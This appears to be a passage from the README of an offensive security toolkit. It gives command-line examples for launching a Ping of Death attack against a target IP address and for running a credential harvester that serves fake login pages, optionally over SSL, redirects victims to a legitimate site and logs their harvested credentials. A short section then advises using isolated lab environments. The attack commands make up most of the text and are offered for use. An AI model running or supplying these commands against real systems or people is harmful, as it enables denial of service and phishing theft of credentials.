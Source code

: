 ### Ping of Death Attack
```bash
# Basic Ping of Death
python src/cli.py ping-of-death \
    --target 192.168.1.100

# Advanced Ping of Death
python src/cli.py ping-of-death \
    --target 192.168.1.100 \
    --size 65500 \
    --count 100 \
    --interval 0.1 \
    --interface eth0 \
    --verify \
    --packet-log /path/to/log.pcap
```

#### Credential Harvester Examples
```bash
# Basic credential harvesting
python src/cli.py credential-harvester \
    --template login-form \
    --port 80

# Advanced credential harvesting with SSL
python src/cli.py credential-harvester \
    --template custom \
    --template-dir /path/to/templates \
    --port 443 \
    --ssl \
    --cert cert.pem \
    --key key.pem \
    --redirect-url https://legitimate-site.com \
    --log-file /path/to/harvested.txt
```

## Best Practices

### Environment Setup

1. **Testing Environment**
   - Use isolated, controlled environments only
   - Deploy virtual machines or containers for targets
   - Set up network monitoring tools
   - Create backup of systems before testing
   - Document initial system state

2. **Network Configuration**
   - Configure interfaces in promiscuous mode when needed
   - Set up proper network isolation
   - Use dedicated test networks
   - Monitor bandwidth and resource usage
   - Keep logs of all network changes
